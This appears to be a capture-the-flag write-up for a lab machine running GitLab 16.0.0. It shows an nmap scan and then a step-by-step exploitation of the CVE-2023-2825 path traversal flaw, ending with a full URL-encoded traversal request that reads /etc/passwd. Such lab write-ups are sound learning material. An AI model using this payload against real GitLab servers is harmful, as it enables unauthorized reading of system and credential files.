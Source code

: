 ![image](https://github.com/user-attachments/assets/c6d1211d-8119-43f3-b7b3-2aadeb255fd8)![image](https://github.com/user-attachments/assets/61a2193a-1fb9-4e90-bde8-1712eb485257)# Writeup

# Enumeration
---
### Nmap
#

TCP scan of all ports, including default scripts.

```bash
# Command
sudo nmap -v -sS -sV -sC -T4 -p- -oA getbash-tcp-fullportscan 10.129.229.69

# Output
# Nmap 7.94SVN scan initiated Mon Dec 16 11:33:36 2024 as: nmap -v -sS -sV -sC -T4 -p- -oA getbash-tcp-fullportscan 10.129.229.69
Nmap scan report for 10.129.229.69
Host is up (0.050s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f3:e8:cf:2e:39:5f:c9:c8:f1:e8:97:a8:04:6a:28:c2 (RSA)
|   256 9b:8a:64:29:f0:b8:c3:c0:4c:55:f0:78:27:ce:c5:86 (ECDSA)
|_  256 c8:2b:18:14:bd:77:2b:0c:68:f6:c3:cb:92:46:34:66 (ED25519)
80/tcp   open  http    nginx
|_http-favicon: Unknown favicon MD5: 66F9A1C3F2CFD0DF1B570990E86D3095
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 57 disallowed entries (15 shown)
| / /autocomplete/users /autocomplete/projects /search 
| /admin /profile /dashboard /users /api/v* /help /s/ /-/profile 
|_/-/ide/ /-/experiment /*/new
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.129.229.69/users/sign_in
8060/tcp open  http    nginx 1.20.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.20.2
| http-methods: 
|_  Supported Methods: GET HEAD POST
9094/tcp open  unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 16 11:34:12 2024 -- 1 IP address (1 host up) scanned in 36.71 seconds
```

# HTTP (Port 80)

Port 80 on this box is hosting GitLab, I create an account so I can access more of the application before browsing the site. 

After registering an account, the help page displays the current version installed on this machine: v16.0.0.

![image](https://github.com/user-attachments/assets/a7ac5104-a772-46bb-9880-4d69b2bd56e8)

This version has a prominant vulnerability: **[CVE-2023-2825](https://www.getastra.com/blog/vulnerability/cve-2023-2825/#:~:text=About%20CVE%2D2023%2D2825,and%20Enterprise%20Edition%20version%2016.0.)**

This vulnerability is a Path Traversal vulnerability, it requirews you to create 10 nested group and then create a propject in the final group. In this group you can raise an issue with an attachment, the response to this request will give you the file path for the upload, this is where the path traversal vulnerability lies. 

The followin 2 guides were used to exploit this vulnerability:
[Juniper Guide](https://blogs.juniper.net/en-us/threat-research/cve-2023-2825-gitlab-arbitrary-path-traversal-vulnerability)
[Occamsec Guide](https://occamsec.com/exploit-for-cve-2023-2825/)

A minimum of 10 groups are needed, this is the number needed to reach the base directory, this is because on a standard Gitlab install, file attachments are uploaded to `/var/opt/gitlab/gitlab-rails/uploads/@hashed/<a>/<b>/<secret>/<secret>/<file>`. I'm assuming there is a rule in the code allowing you to traverse the number of groups back. The 10 groups and project can be seen below:

![image](https://github.com/user-attachments/assets/b3b04139-ff2d-4887-9935-b53aace61a44)

From here I can upload anydocument to an issue on that project and see in the response the file path.

```text
"note":"[testDoc.txt](/uploads/b5b4ddeeccb3365ce8ca8b9fa5b31900/testDoc.txt)
```

I can append this to the URL to view the file, the full URL in this example would be:

```text
http://<ip>/group-1/group-2/group-3/group-4/group-5/group-6/group-7/group-8/group-9/group-10/group-11/project-2/uploads/b5b4ddeeccb3365ce8ca8b9fa5b31900/testDoc.txt
```

It is this URL I can exploit, by using path traversal to access files instead of test Doc.txt. The rule in this exploit is to traverse the number of groups + 1, in this case that will be 11. Forward slashes must also be URL encoded. The full attack URL ends up:

```text
http://<ip>/group-1/group-2/group-3/group-4/group-5/group-6/group-7/group-8/group-9/group-10/group-11/project-2/uploads/b5b4ddeeccb3365ce8ca8b9fa5b31900/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

This traverses to the base directory and accesses /etc/passwd:

![image](https://github.com/user-attachments/assets/02fad883-6a92-4b18-958f-3d16d518b900)



